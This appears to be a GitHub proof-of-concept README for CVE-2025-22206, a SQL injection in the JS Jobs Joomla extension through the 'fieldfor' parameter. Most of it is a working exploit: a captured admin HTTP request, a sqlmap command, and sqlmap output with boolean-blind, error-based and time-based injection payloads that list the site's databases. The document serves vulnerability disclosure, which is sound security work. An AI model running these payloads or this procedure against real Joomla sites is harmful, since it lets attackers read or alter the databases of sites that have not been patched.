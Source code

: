 # CVE-2025-22206: JS Jobs SQL injection vulnerability

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-22206

**JS Jobs:** https://joomsky.com/js-jobs-joomla

**Writeup:** https://decrypt.locker/obtaining-my-first-cve

## Introduction
A SQL injection vulnerability in the JS Jobs plugin versions 1.1.5-1.4.2 for Joomla allows authenticated attackers (administrator) to execute arbitrary SQL commands via the 'fieldfor' parameter in the GDPR Field feature.

## POC
To exploit this vulnerability, log in as the site administrator and go to 'Dashboard >> GDPR Fields >> + Add New Field >> Add Fields >> Field Title: test >> Field Text: test >> Save Fields'.

![Alt text](1.png)

Then capture the Save Fields HTTP request with Burp Suite and save the request to a file (req.txt). Then run SQLMap through the file to exploit the SQLi vulnerability (see below).

**HTTP Request:**
```
POST /administrator/index.php HTTP/1.1
Host: localhost:8080
Content-Length: 364
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; jsst_collapse_admin_menu=1; a3030abf7606e950783a31b16179a889=1c61b4c6f83b5569f9484c6888412100; f06339f02055c32957cf8cda32f8587f=48b5f4615da4721440ffe8ec49d08347
Connection: keep-alive

check=89cb1c0cc02cf810832f5e4c6c7b7386&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=14&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save+Fields&89cb1c0cc02cf810832f5e4c6c7b7386=1
```

**Exploit:**
```
ubuntu@host:~/tools$ python3 sqlmap-dev/sqlmap.py -r ~/test/req.txt --batch --dbs

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: fieldfor (POST)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: check=891b79eeac944c244b6331618aa0dac0&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=(SELECT (CASE WHEN (7446=7446) THEN 14 ELSE (SELECT 6203 UNION SELECT 9943) END))&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save Fields&891b79eeac944c244b6331618aa0dac0=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: check=891b79eeac944c244b6331618aa0dac0&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=14 AND GTID_SUBSET(CONCAT(0x71786a6271,(SELECT (ELT(6091=6091,1))),0x716a766b71),6091)&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save Fields&891b79eeac944c244b6331618aa0dac0=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: check=891b79eeac944c244b6331618aa0dac0&fieldtitle=test&termsandconditions_text=test&termsandconditions_linktype=0&termsandconditions_link=&id=&task=gdpr.savegdprfield&option=com_jsjobs&userfieldtype=termsandconditions&isuserfield=1&fieldfor=14 AND (SELECT 7659 FROM (SELECT(SLEEP(5)))kQDv)&published=1&required=1&isvisitorpublished=1&ordering=&created=&submit_app=Save Fields&891b79eeac944c244b6331618aa0dac0=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```
